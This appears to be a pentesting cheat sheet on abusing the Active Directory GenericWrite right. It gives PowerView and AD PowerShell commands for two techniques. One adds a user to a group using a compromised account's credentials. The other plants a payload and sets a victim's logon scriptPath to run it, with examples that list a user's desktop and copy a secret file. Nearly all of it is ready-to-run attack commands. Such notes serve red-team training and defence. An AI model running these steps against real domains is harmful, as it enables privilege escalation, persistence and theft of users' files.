 # GenericWrite
## On a `Group` Object `AddMember`

1. **Authenticate as the Compromised User**:  
   - Create a `PSCredential` object for the user with group modification rights:  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     *(Replace `DOMAIN\USERNAME` and `<PASSWORD>` with the target user's credentials, e.g., `corp.com\ali`).*  

2. **Verify Current Group Membership**:  
   - Check existing members of the target group (e.g., `Help Desk Level 1`):  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Select MemberName
     ```  
     or using native AD cmdlets:  
     ```powershell
     Get-ADGroupMember -Identity "GROUP_NAME" | Select-Object Name
     ```  

3. **Add the User to the Group**:  
   - Use PowerView's `Add-DomainGroupMember` (or `Add-ADGroupMember`):  
     ```powershell
     Add-DomainGroupMember -Identity 'GROUP_NAME' -Members 'TARGET_USER' -Credential $Cred -Verbose
     ```  
     *(Replace `GROUP_NAME` and `TARGET_USER` with the group and user to add, e.g., `Help Desk Level 1` and `ali`).*

4. **Confirm Success**:  
   - Re-run the membership check to ensure the user was added:  
     ```powershell
     Get-DomainGroupMember -Identity "GROUP_NAME" | Where-Object { $_.MemberName -eq 'TARGET_USER' }
     ```  

## On a `User` Object `Logonscript` _Set-DomainObject_
**Tools**: PowerView
### Workflow

#### 1. **Create a Payload Script**

Prepare a script to perform the desired action. Save it in a location accessible by the target system.

- **Example 1**: List directory contents
    
    ```cmd
    echo "dir C:\Users\Alice\Desktop > C:\Temp\output.txt" > \\temp\\payload.ps1
    ```
#### 2. **Set the `scriptPath` Attribute**

- Use PowerView or another AD tool to modify the `scriptPath` of the target user object.

    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
  
- **Example 2**: Copy a file
    
    ```cmd
    echo "copy C:\Users\Alice\Desktop\secret.txt C:\Temp\copied_secret.txt" > \\temp\\payload.ps1
    ```
- **Set the `scriptPath` Attribute**
    ```powershell
    Set-DomainObject -Identity alice -Set @{ scriptPath = "\\temp\\payload.ps1" }
    ```
#### 3. **Retrieve the Results**

Check the output location defined in your script:

- Example: `C:\Temp\output.txt`
    
- Example: `C:\Temp\copied_secret.txt`
    
        

